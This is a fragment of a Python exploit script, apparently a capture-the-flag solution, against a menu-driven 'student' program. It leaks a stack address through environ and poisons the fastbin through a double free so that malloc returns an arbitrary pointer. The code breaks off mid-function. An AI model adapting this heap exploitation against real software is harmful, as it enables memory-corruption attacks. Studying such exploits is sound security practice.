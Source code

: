 ```python

    r.sendline(b" ".join([str(fake_student[x]).encode() for x in range(24)]))

    r.recvuntil(b"choice: \n")
    r.recvuntil(b"choice: \n")

    r.sendline(b"2 0")


    env_addr = u64(r.recv(6).rstrip().ljust(8,b"\x00"))

    r.recvuntil(b"choice: \n")
    
    return env_addr - 0x130 # -0x130 is the offset from environ to the set_name stored rip


def poison_fastbin(r, target, value):

    assert(len(value) == 24)


    # first we empty tcache

    for i in range(9):
        r.sendline(f"0 {i} 0".encode())
        r.recvuntil(b"choice: \n")

    for i in range(7):
        r.sendline(f"4 {2+i}".encode())
        r.recvuntil(b"choice: \n")

    # # now, to populate fastbins with a dupe

    r.sendline(b"4 0")
    r.sendline(b"4 1")
    r.sendline(b"4 0")

    for i in range(3):
        r.recvuntil(b"choice: \n")

    # # lets just empty tcache real quick

    for i in range(7):
        r.sendline(f"0 3 0".encode())
        r.recvuntil(b"choice: \n")

    r.sendline(b"1 0 24")


    # we have a duplicate chunk in fastbin
    # so what we want to do is write over the next pointer
    # allowing us to artificially extend fastbin
    # and tricking malloc into returning an arbitrary pointer

    dup_chunk = p64(target) + b"A" * 16
    r.sendline(b" ".join([str(dup_chunk[x]).encode() for x in range(24)]))

    # here we use up the rest of real fastbin so the next pointer is our fake pointer

    r.sendline(b"0 0 0")
    r.sendline(b"0 0 0")

    # allocate our fake pointer and write "value" to it
```
